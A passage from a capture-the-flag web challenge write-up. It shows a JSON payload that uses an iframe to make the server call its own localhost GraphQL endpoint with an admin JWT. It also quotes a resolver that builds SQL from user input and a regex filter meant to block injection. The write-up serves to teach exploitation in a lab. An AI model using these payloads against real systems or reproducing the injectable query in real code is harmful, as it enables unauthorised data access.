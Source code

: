 This makes our final query look like:

```json
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYxOTM0ODZ9.CwFQM5tcCFDeRt45Sa7ExJkndNfSp_kF9QhvyXu151Y&query=%7B%0A%20%20getDataByName(name%3A%20%22john%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='1000' width='1000'></iframe>"
}
```

![image](../images/htb-ctf-2024/graphql-query.png)
*Successful GraphQL query*

Success! We're now able to query `/graphql` as an internal user from `127.0.0.1` using our admin JWT.

## SQL Injection

Since `name` is being passed into the GraphQL schema before being insecurely substituted into the SQL query, we can likely perform SQL injection on the database. Let's have another look at the query in `app/schemas/schema.js`:

```js  
...
const { detectSqli } = require("../utils/security")
...
        if (detectSqli(args.name)) {
          return generateError(400, "Username must only contain letters, numbers, and spaces.")
        }
        try {
            data = await connection.query(`SELECT * FROM users WHERE name like '%${args.name}%'`).then(rows => rows[0]);
...
```

We can see that there's been attempt to stop SQL injection via `detectSqli()`. Let's check the function out in `app/utils/security.js`:

```js
function detectSqli (query) {
    const pattern = /^.*[!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]/
    return pattern.test(query)
}
```
